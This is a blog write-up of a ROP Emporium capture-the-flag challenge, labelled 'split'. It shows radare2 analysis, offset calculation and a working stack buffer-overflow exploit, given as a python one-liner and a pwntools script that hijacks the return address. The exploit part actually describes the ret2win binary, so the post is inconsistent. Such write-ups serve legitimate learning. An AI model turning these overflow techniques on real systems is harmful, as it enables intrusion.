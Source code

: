 ```yaml
---
layout: post
title:  "ROP Emporium - split"
date:   2020-05-8 14:07:19
categories: [ROP]
excerpt: "Doing these challenges to improve my binary exploitation skills and teach my self Return oriented programming (ROP). These challenges use the usual CTF objective of retrieving the contents of a file named flag.txt from a remote machine by exploiting a given binary"

comments: true
---
```



## Introduction
This is the Second challenge from ROP Emporium named "Split". In this i am, going to write a small ROP chain to complete this challenge. Going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain. 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture.Lets check what protection are on this binary, using rabin2, which comes with radare2 framework.

![source-01](/img/Screenshot_2020-05-13_12-32-28.png){: .align-left}


PIE isn't enabled and nx set to true, we know shellcode cannot be executed off the stack and we know binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions.The afl command list the functions. We can also output it as JSON using this command aflj~{}

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see interesting functions:
- main()
- pwnme()
- usefulFunction()

So lets disassemble and see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-13_08-44-57.png){: .align-left}


The only interesting thing here for us is, its calling the function name pwnme() which have overflow vulnerability.

###### pwnme():


![source-01](/img/Screenshot_2020-05-13_08-48-45.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function call system with /bin/cat flag.txt, so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary.
Run the program and send more than 40 bytes
```

➜  ret2win ./ret2win      
ret2win by ROP Emporium
64bits
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaa
[5]    74490 segmentation fault  ./ret2win

```
As expected the program segfaulted (crashed),we have a valid crash scenario here,but we are not sure if we have overwritten any registers.So lets attach the binary to gdb and analyze the crash.

Attach the binary to GDB using gdb -q return2win

###### Calculating offset
Generate cylic pattern and send to the program
```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
```
Copy past the generated pattern to the program


![source-01](/img/Screenshot_2020-05-09_11-20-57.png){: .align-left}


The program has crashed and we have overwritten the rsp,to find the extact offset copy the hex at rsp to the clipboard, then type pattern offset.


![source-01](/img/Screenshot_2020-05-09_11-23-21.png){: .align-left}


## Exploiting:

We have 40 bytes to fill the stack and then we need to put the address of the ret2win function.So that the saved return address will contain the address of the ret2win function (0x400811), and the program  execute the function.

The exploit then will look as follows:

**Payload: 

The payload will be very simple, just our junk and return address, when writting return address keep an eye for endianess.

[40 chars of junk] + [address of ret2win]  "A"*40             + "\x11\x08\x40"

**Here is my final exploit:

> python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00"' | ./ret2win


![source-01](/img/Screenshot_2020-05-09_15-53-55.png){: .align-left}



Putting it all together,and i developed the final exploit with pwntools (python library) just for fun and learning.

```python

#!/usr/bin/python                                                              
 from pwn import *                                                              
 def main():                                                                    
     context.log_level = "info"                                                 
     elf = ELF('./ret2win')                                                     
     info(elf.symbols.ret2win)                                                  
     p = process(elf.path)                                                      
     ret2win = p64(elf.symbols.ret2win)                                         
     payload = b"A"*40 + ret2win                                                
     p.sendline(payload)                                                        
     p.recvuntil("Here's your flag:")                                           
     flag = p.recvline()                                                        
     success(flag)                                                              
 if __name__== "__main__":                                                      
     main()    
```

![source-01](/img/Screenshot_2020-05-09_16-20-05.png){: .align-left}


w00t we got the flag!

###### End 

Thats the end of ret2win challenge,it is a very simple one but as i progress through the challenges the exploits will become more complex and fun. Remember never stop learning, Cheers!.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium



